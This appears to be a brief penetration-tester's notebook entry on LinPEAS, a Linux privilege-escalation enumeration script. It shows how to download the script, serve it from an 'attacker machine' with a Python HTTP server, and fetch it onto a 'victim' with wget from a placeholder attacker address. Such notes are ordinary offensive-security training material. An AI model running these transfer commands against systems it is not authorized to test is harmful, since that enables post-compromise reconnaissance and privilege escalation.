 Tags: [[Linpeas]] [[Cybersecurity]] [[Cyber Tool]]


## Download Linpeas

```Bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

```

## Transfer Linpeas to target

```Bash
# On Attacker Machine
python3 -m http.server 8000
```

```Bash
# On victim 
wget http://{Your-IP:PORT}/linpeas.sh
```